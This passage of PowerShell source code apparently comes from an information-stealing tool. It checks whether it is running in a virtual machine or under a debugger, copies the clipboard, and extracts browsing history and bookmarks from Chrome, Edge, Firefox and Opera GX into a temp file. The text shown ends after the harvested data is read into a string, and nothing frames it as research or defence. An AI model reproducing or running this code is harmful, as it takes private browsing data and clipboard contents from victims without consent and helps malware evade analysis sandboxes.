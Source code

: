 if ($isVM) {   
    $vmD = "FAIL!"
}
else{
    $vmD = "PASS"
}
if ($isDebug) {
    $debugD = "FAIL!"
}
else {
    $debugD = "PASS"
 }
$vmDetect = "VM Check : $vmD"
$debugDetect = "Debugging Check : $debugD"


$clipboard = Get-Clipboard
if (!($clipboard)){
    $clipboard = "No Data Found.."
}
# History and Bookmark Data
$Expression = '(http|https)://([\w-]+\.)+[\w-]+(/[\w- ./?%&=]*)*?'
$Paths = @{
    'chrome_history'    = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\History"
    'chrome_bookmarks'  = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Bookmarks"
    'edge_history'      = "$Env:USERPROFILE\AppData\Local\Microsoft/Edge/User Data/Default/History"
    'edge_bookmarks'    = "$env:USERPROFILE\AppData\Local\Microsoft\Edge\User Data\Default\Bookmarks"
    'firefox_history'   = "$Env:USERPROFILE\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release\places.sqlite"
    'opera_history'     = "$Env:USERPROFILE\AppData\Roaming\Opera Software\Opera GX Stable\History"
    'opera_bookmarks'   = "$Env:USERPROFILE\AppData\Roaming\Opera Software\Opera GX Stable\Bookmarks"
}
$Browsers = @('chrome', 'edge', 'firefox', 'opera')
$DataValues = @('history', 'bookmarks')
$outpath = "$env:temp\Browsers.txt"
foreach ($Browser in $Browsers) {
    foreach ($DataValue in $DataValues) {
        $PathKey = "${Browser}_${DataValue}"
        $Path = $Paths[$PathKey]

        $entry = Get-Content -Path $Path | Select-String -AllMatches $Expression | % {($_.Matches).Value} | Sort -Unique

        $entry | ForEach-Object {
            [PSCustomObject]@{
                Browser  = $Browser
                DataType = $DataValue
                Content = $_
            }
        } | Out-File -FilePath $outpath -Append
    }
}
$entry = Get-Content -Path $outpath
$entry = ($entry | Out-String)
